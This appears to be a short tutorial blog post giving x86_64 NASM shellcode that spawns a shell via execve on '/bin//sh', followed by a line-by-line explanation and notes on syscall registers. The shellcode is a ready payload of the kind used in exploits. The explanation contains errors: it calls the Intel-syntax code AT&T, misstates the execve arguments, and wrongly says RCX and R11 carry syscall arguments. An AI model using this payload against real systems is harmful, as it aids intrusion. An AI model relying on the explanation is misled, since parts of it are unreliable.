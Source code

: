 ```yaml
---
layout: post
title:  "Creating a Shellcode to execute /bin/bash"
date: 01-02-2022 12:32:45 +0100
categories:
---
```

```nasm
global _start
section .text
_start:
xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f 
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```
### Explanation
This is a piece of x86_64 Assembly code written in the AT&T syntax.

It is essentially a shellcode that performs the following actions:

1. XORs the value of register RAX with itself to set its value to zero.
2. Pushes the zero value onto the stack.
3. Moves the stack pointer (RSP) into the RDX register.
    1. Loads the value 0x68732f6e69622f2f (which is the ASCII representation of "/bin//sh") into the RBX register. The value is in little endian format.
4. Pushes the value of RBX onto the stack.
5. Moves the stack pointer (RSP) into the RDI register.
6. Pushes another zero value onto the stack.
7. Pushes the value of RDI (which now points to "/bin//sh") onto the stack.
8. Moves the stack pointer (RSP) into the RSI register.
9. Adds 59 to the value of RAX.
10. Calls the syscall instruction to perform the specified system call (in this case, execve("/bin//sh", 0, 0)).

#### Which registers are used to make a Syscall ?
In x86_64 architecture, the following registers are used to execute a syscall:

- **`rax`**: contains the syscall number, which specifies the desired system call.
- **`rdi`**, **`rsi`**, **`rdx`**, **`r10`**, **`r8`**, **`r9`**: used as arguments to the syscall, depending on the number of arguments required by the specific syscall.
- **`rcx`** and **`r11`** may also be used as additional arguments by some syscalls.

After executing the syscall, the return value is stored in **`rax`**. If the syscall returns an error, the **`rax`** register contains a negative value indicating the error code.